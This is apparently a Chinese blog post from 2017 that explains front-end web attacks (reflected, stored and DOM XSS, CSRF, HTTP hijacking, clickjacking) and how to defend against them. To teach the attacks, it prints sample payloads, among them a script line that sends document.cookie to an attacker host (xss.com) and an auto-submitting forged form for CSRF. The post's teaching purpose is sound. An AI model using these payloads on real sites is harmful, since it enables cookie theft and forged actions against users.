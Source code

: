 ```yaml
---
layout: post
title: 前端安全知识总结
date: 2017-07-30
categories: test
tags: Web安全 
---
```


安全是恒久的话题，如果不注意防范，会带来很严重的后果。

最近深刻的体会了这句话的含意，刚刚上线的业务，被人利用逻辑漏洞注马、被肉鸡、Web代码被篡改等等，整台服务器的价值被黑客榨干。

之后的一段时间，我会不断总结Web前端安全与php相关的安全知识，杜绝一切安全隐患。

**背景知识**

“安全”是个很大的话题，各种安全问题的类型也是种类繁多。如果我们把安全问题按照所发生的区域来进行分类的话，那么所有发生在后端服务器、应用、服务当中的安全问题就是“后端安全问题”，所有发生在浏览器、单页面应用、Web页面当中的安全问题则算是“前端安全问题”。比如说，SQL注入漏洞发生在后端应用中，是后端安全问题，跨站脚本攻击（XSS）则是前端安全问题，因为它发生在用户的浏览器里。

* * *

**一、XSS攻击与防御**

SS攻击：跨站脚本攻击(Cross Site Scripting)，为不和 CSS混淆，故将跨站脚本攻击缩写为XSS。

为什么叫跨站脚本？简单来说，就是在一个网站上运行了该网站之外的js脚本(当然，开发者自已引用的可信源的js不算，比如使用了cdn的 jQuery )。

当年写过这样一段代码，form提交表单后，如果有错误，需要前台alert出来。

偷懒采用了如下思路

1、提交表单之后再次重定向到当前页面，然后把错误信息放入url中。

2、controller层把url参数传入模板。

3、模板部分如果变量有值，就alert出来。

代码大概如下

    // 假设提交表单之后定位到这个页面// http://www.wrong.com?msg=param-error// 页面上模板上，为了省心，有这么一段<script>    // … 省略一些代码，{{}} 是模板引擎引入变量的语法    alert('{{query.msg}}');</script>

乍一看，这么写没什么问题。{{query.msg}}会被替换成 param-error。模板被解析成html的时候，会变为alert('param-error’);

但是，如果有人不怀好意，访问这样一个url

**http://www.wrong.com?msg=');alert(document.cookie);('**

然后代码就变成了

**alert('');alert(document.cookie);('');**

访问这个页面，弹出了cookie。

当然，弹出cookie没有太多价值，但如果我们把代码改成

**new Image().src = 'http://www.xss.com?data=' + document.cookie;**

这样，我们就把目标用户的cookie发送到我们的服务器上了。而cookie中极有可能存在用户的隐私数据甚至是用户的登录session。

当然，这只是一个最简单的例子，用来说明攻击的原理。实际情况下，我们会遇到很多限制，比如浏览器的自动转码，cookie的only http标识等。

XSS的攻击有很多种方式，通常情况下，我们会对XSS攻击做如下分类

**1、反射型XSS**

发请求时，XSS代码出现在URL中，提交给服务端。服务端返回的内容，也带上了这段XSS代码。最后浏览器执行XSS代码。

通常情况是攻击者找到有XSS漏洞的网站，然后构造一个连接，就像这种

**http://www.hasxss.com?x=<script>alert(document.cookie)</script>**

带有攻击效果的链接

然后诱导你点击

通常他们会把链接短链一下迷惑你，就好比

**http://dwz.cn/woshiduanwangzhi**

PS:通常还会加上一句类似 ~你们看看王宝强儿子长得像谁~ 这种标题😓。

然后你点击进去就中招了。

**2、存储型XSS**

存储型和反射型的区别就是，提交的XSS代码会存储在服务器端。这种XSS也是最危险的。

举个例子，我们的网站允许用户设置一段个性签名，会显示在个人主页。

然后用户签名设置为

**<script>alert(document.cookie)<script>**。


数据库存储这段代码，然后页面显示出来。

如果这个过程中没有经过任何转义，那么这段html就直接执行了。这样，所有访问你个人主页的用户，就都中招了。

**3、DOM XSS**

这种和上面说的两种的区别就在于，DOM XSS不需要服务端参与，可以认为是前端代码漏洞导致。

举个例子，有这样一段代码

    <script>    eval(location.hash.substr(1));</script>// 而这个时候，如果用户在网址后面加上恶意代码http://www.xss.com#alert(document.cookie)

这样就完成了攻击了。

这也是我们常说eval不安全的原因，传入eval的字符串，天知道会是什么东西，但无论是什么，它都会去执行。

说了XSS的类型，我们再说说防御的手段。

1、过滤转义输入输出

用户输入的情况，通常来讲也是HTTP请求。GET请求的url参数。POST请求的body数据。

比如我们接收的数据是用户年龄，那么在后端，需要判断一下数据是否是Number，这样才能让恶意攻击者没有可乘之机。

对于一些特殊符号，我们需要对其进行转义

    & --> &amp;< --> &lt;> --> &gt;" --> &quot;' --> &#x27;/ --> &#x2F;

这个一方面是后端接收这些代码时候的转义存储，一方面是前端在显示的时候，需要把它们转成html实体。

2、避免使用**eval，new Function**等执行字符串的方法，除非确定字符串和用户输入无关。

3、使用innerHTML，document.write的时候，如果数据是用户输入的，那么需要对关键字符都进行过滤与转义。

4、对于非客户端cookie，比如保存用户凭证的session，务必标识为http only，这样js就获取不到这个cookie值了，安全性得到提高。

对于XSS的防御，提高编码的安全意识是一方面。

还有一种方式是主动防御。也就是当发现页面有XSS攻击时候，主动上报。

至于如何检测到，目前的方式大多是对事件和脚本拦截。判断是否有恶意代码。

**二、CSRF攻击**

CSRF全称是跨站请求伪造。这么说挺模糊的，我们来具体看下例子就能明白

假设 新浪微博关注某个人的请求是

**GET www.weibo.com/attention?userid=123**

所以，当用户处于登录状态下，并且访问如上链接，便会关注userid为123的用户。

那么我们可以做出如下攻击。

编写一个恶意页面 www.csrf.com。然后在页面上加上一句

**<img src=“www.weibo.com/attention?userid=123” />**

这时，用户只要访问了这个页面，便发起了关注的请求。并且该请求还是带上了登录cookie的，因为cookie是跟随着请求域名一起的。

上面这个例子是一个太理想的情况，又例如实际关注的请求，是一个POST请求，那应该怎么办呢？

其实这也很简单，虽然发送post请求会有跨域限制，但是我们可以使用js动态生成一个form表单。然后把地址指向上述url,最后再加上自动提交即可。

    function createForm() {  var form = document.createElement('form');  document.body.appendChild(form);  form.method = 'post';  return form;}function createInput() {  // 省略一些代码，创建一些input，让form使用appendChild放进去}var f = createForm();// 插入一些数据f.action = 'http://www.csrf.com';f.submit();

CSRF的防御方式

1.  检测http referer是否是同域名，通常来讲，用户提交的请求，referer应该是来来自站内地址，所以如果发现referer中地址异常，那么很可能是遭到了CSRF攻击。
    
2.  避免登录的session长时间存储在客户端中。
    
3.  关键请求使用验证码或者token机制。在一些十分关键的操作，比如交易付款环节。这种请求中，加入验证码，可以防止被恶意用户攻击。token机制也有一定的防御作用。具体来说就是服务器每次返回客户端页面的时候，在页面中埋上一个token字段，例如 **<input type=“hidden” name=“csrftoken” value=“abcd">**
    
    之后，客户端请求的时候带上这个token，使用这个机制后，攻击者也就很难发起CSRF攻击了。
    

**三、HTTP劫持与对策**

HTTP劫持严格上来说不能完全算前端安全的范畴。因为导致这种情况的主要是运营商。

先简单解释下HTTP劫持吧，当我们访问页面的时候，运营商在页面的HTML代码中，插入弹窗、广告等HTML代码，来获取相应的利益。

针对这种情况，最好的解决方式也就是使用HTTPS，加密过后，他们就没法插入广告代码了。

那么对于还没有升级的情况，我们可以努力让影响降到最低。

**情况一：页面被iframe嵌套了**

这种情况还是比较简单的。对于跨域iframe，我们是可以改变父页面地址的


所以，我们在代码中加上

    if (self != top) { top.location = location.href;}

**情况二：页面多出了广告的html代码或者插入广告的脚本**

这种情况下，我们能做的有限。

一方面我们可以检测是否有新增的html。监控检测判断，发现是广告就移除掉。

另一方面，对于使用document.write方法写入的广告，我们可以通过重写document.write方法来达到删除广告的目的

**四、界面操作劫持**


这是一种欺骗性比较强，同时也需要用户高度参与才能完成的一种攻击。通常的攻击步骤是这样的：

    1.攻击者精心构造一个诱导用户点击的内容，比如Web页面小游戏
    2.将我们的页面放入到iframe当中
    3.利用z-index等CSS样式将这个iframe叠加到小游戏的垂直方向的正上方
    4.把iframe设置为100%透明度
    5.受害者访问到这个页面后，肉眼看到的是一个小游戏，如果受到诱导进行了点击的话，实际上点击到的却是iframe中的我们的页面

点击劫持的危害在于，攻击利用了受害者的用户身份，在其不知情的情况下进行一些操作。如果只是迫使用户关注某个微博账号的话，看上去仿佛还可以承受，但是如果是删除某个重要文件记录，或者窃取敏感信息，那么造成的危害可就难以承受了。

如何防御

有多种防御措施都可以防止页面遭到点击劫持攻击，例如Frame Breaking方案。一个推荐的防御方案是，使用X-Frame-Options：DENY这个HTTP Header来明确的告知浏览器，不要把当前HTTP响应中的内容在HTML Frame中显示出来。






**这里我没有把opacity设置为0。如果设置为0的话。那么就完成了一次界面操作劫持了。你以为点击了百度一下，实际点击的是关注。 **

**五、防御方式**

说了这么多攻击方式，但是我们的web还是很安全的是不是？

**上面列举的例子都不具备实际攻击作用**，因为浏览器厂商，W3C等已经做了很多安全工作，让我们的页面可以安稳的运行起来。但是道高一尺魔高一丈，我们要合理运用防护手段，才能让页面不被攻击。

1、HTTP响应头，在响应可以通过这些字段来提高安全性

*   X-Frame-Options 禁止页面被加载进iframe中
    
*   X-XSS-Protection 对于反射型XSS进行一些防御
    
*   X-Content-Security-Policy 这个就比较复杂了，可选项很多，用来设置允许的的资源来源以及对脚本执行环境的控制等。
    

2、使用HTTPS、使用HTTP ONLY的cookie。cookie的secure字段设置为true

3、GET请求与POST请求，要严格遵守规范，不要混用，不要将一些危险的提交使用JSONP完成。